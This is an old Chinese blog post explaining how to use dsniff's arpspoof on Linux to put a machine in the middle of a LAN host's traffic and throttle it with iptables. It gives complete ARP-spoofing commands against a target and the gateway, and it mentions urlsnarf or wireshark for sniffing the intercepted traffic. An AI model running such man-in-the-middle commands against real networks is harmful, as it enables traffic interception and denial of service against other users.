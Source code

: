 ```yaml
---
author: admin
comments: true
date: 2011-11-07 19:16:51
layout: post
slug: linux-limit-p2p-ing-host
title: linux下限制局域网内部使用p2p软件的主机
wordpress_id: 1865
categories:
- 服务器
---
```


windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.




作用：



    
    arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)




注意：kernel的ip转发必须要提前打开




使用：



    
    arpspoof [-i interface] [-t target] host



    
    -i 用来指示要使用的网卡接口，一般是eth0,



    
    -t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机



    
    host 你要截取数据包的主机，通常是网关




具体使用：




环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1




1 安装



    
    sudo pacman -S dsniff




2 开启内核转发和欺骗



    
    #echo 1 > /proc/sys/net/ipv4/ip_forward




#欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。



    
    $sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1




#欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)



    
    $sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29




_192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_




3 利用iptables开始限速




#192.168.0.29被限制每秒只能传输3个数据包了



    
    $sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   




4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩







参考资料：




[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)




[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)

